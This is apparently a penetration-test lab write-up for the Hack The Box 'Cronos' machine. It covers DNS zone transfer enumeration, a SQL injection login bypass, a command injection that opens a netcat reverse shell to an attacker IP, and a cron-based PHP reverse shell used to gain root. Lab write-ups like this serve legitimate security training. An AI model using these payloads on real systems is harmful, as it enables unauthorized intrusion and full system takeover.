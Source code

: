 1. Initial nmap scans discovered a web server on port 80 and a DNS server on port 53 that were of interest.  The web server was only displaying an apache test page.  However, I enumerated the DNS server to find the domain was cronos.htb, so I did a zone transfer for that domain to discover aliases for the server.

   ```bash
   host 10.10.10.13 10.10.10.13
   # Output
   # 13.10.10.10.in-addr.arpa domain name pointer ns1.cronos.htb.
   host -l cronos.htb 10.10.10.13 > zonexfer
   ```

2. I was suspicious about the aliases, so I put entries in my /etc/hosts file to point those DNS names to the server IP:

   ```bash
   # Added to /etc/hosts
   10.10.10.13     admin.cronos.htb
   10.10.10.13     www.cronos.htb
   ```

3. On loading the website by DNS name, I found that http://admin.cronos.htb gave me an admin login panel while http://www.crono.htb gave me a new website running laravel web server.

4. The login form of the admin page was susceptible to a SQL injection attack which allowed me to bypass the login and access the Net Tool using this text in the username field:

   ```bash
   test' or 1=1;#
   ```

5. From this Net Tool, I was able to perform a command injection attack and create a reverse shell by sending this command:

   ```bash
   127.0.0.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i |nc 10.10.14.29 8000 >/tmp/f; rm /tmp/f
   ```

   ![image-20201024193902464](.Report.assets/image-20201024193902464.png)

6. After reviewing the crontabs, I found a php job referencing code from /var/www/laravel/artisan, a file that was writable by the www-data user.  I started a netcat listener, made a backup of this file, and replaced it with the following code and allowed cron to run it to create a reverse shell as root.

   ```bash
   <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.29/8001 0>&1'");?>
   ```

   ![image-20201024201453055](.Report.assets/image-20201024201453055.png)

